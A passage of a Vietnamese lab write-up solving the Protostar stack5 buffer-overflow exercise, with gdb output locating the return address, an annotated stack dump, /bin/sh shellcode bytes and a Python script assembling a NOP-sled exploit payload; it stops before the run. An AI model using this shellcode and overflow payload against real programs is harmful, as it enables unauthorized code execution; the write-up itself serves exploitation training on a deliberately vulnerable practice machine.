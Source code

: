 ```
 8049019:	b0 01                	mov    $0x1,%al
 804901b:	cd 80                	int    $0x80
```
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x31\xc9\xb0\x0b\xcd\x80\x31\xdb\xb0\x01\xcd\x80` đoạn shellcode hình thù sẽ như này :v  
tiếp theo là tìm vị trí của `ret`:
```
user@protostar:/opt/protostar/bin$ nano /tmp/payload
user@protostar:/opt/protostar/bin$ cat /tmp/payload
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
user@protostar:/opt/protostar/bin$ gdb stack5
...
...
(gdb) b *0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) r < /tmp/payload
Starting program: /opt/protostar/bin/stack5 < /tmp/payload

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x5353535b
) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) x/x $ebp
0x53535353:	Cannot access memory at address 0x53535353 <-- 'SSSS'
(gdb) 
```
Okay giờ ta sẽ có cấu trúc của payload sẽ như sau:
payload = padding + retadd + "\x90"xN + shellcode
```
(gdb) x/100x $esp-80
0xbffff63c:	0xb7eada75	0x41414141	0x42424242	0x43434343  <-- padding bắt đầu từ 0x41414141.
0xbffff64c:	0x44444444	0x45454545	0x46464646	0x47474747
0xbffff65c:	0x48484848	0x49494949	0x4a4a4a4a	0x4b4b4b4b
0xbffff66c:	0x4c4c4c4c	0x4d4d4d4d	0x4e4e4e4e	0x4f4f4f4f
0xbffff67c:	0x50505050	0x51515151	0x52525252	0x53535353  <-- kết thúc ở 0x53535353 và sau đó là retadd.
0xbffff68c:	[ret here]	0x55555555	0x56565656	0x57575757  <-- sau ret sẽ là chuỗi \x90\ vì sẽ có sự biến động 
0xbffff69c:	0x58585858	0x59595959	0x5a5a5a5a	0xb7ffef00  	khi chạy và debug, nên sẽ không thể tính chính xác 
0xbffff6ac:	0x08048232	0x00000001	0xbffff6f0	0xb7ff0626		vị trí của shell code.
0xbffff6bc:	0xb7fffab0	0xb7fe1b28	0xb7fd7ff4	0x00000000  <-- sau chuỗi NOP sẽ là shellcode do hệ thống sẽ bỏ qua
0xbffff6cc:	0x00000000	0xbffff708	0x51edd019	0x7bb88609		NOP và tiếp tục thực thi.
0xbffff6dc:	0x00000000	0x00000000	0x00000000	0x00000001
0xbffff6ec:	0x08048310	0x00000000	0xb7ff6210	0xb7eadb9b
0xbffff6fc:	0xb7ffeff4	0x00000001	0x08048310	0x00000000
0xbffff70c:	0x08048331	0x080483c4	0x00000001	0xbffff734
0xbffff71c:	0x080483f0	0x080483e0	0xb7ff1040	0xbffff72c
0xbffff72c:	0xb7fff8f8	0x00000001	0xbffff87b	0x00000000
```
File payload:
```
import struct
sc = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x31\xc9\xb0\x0b\xcd\x80\x31\xdb\xb0\x01\xcd\x80"
pd = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
nop = "\x90"*100
retadd = struct.pack("I",0xbffff6b0)
payload = pd + retadd + nop + sc
print payload
```
Chạy nào:
